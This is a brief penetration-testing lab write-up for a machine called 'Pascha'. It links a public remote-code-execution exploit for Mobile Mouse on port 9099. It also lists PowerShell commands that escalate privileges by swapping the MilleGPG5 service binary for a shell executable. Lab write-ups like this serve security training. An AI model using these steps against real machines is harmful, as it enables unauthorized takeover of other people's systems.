 # Pascha

Ok so after scan, found mobile mouse on port 9099, had a hard time running exploit&#x20;

{% embed url="https://github.com/lof1sec/mobile_mouse_rce" %}

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

And for privesc i Found service MilleGPG5 running and found a nice git:

{% embed url="https://github.com/Daniel-Ayz/OSCP" %}

```
icacls "C:\Program Files\MilleGPG5\GPGService.exe"
stop-service GPGOrchestrator
copy shell.exe "C:\Program Files\MilleGPG5\GPGService.exe"
start-service GPGOrchestrator
```

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
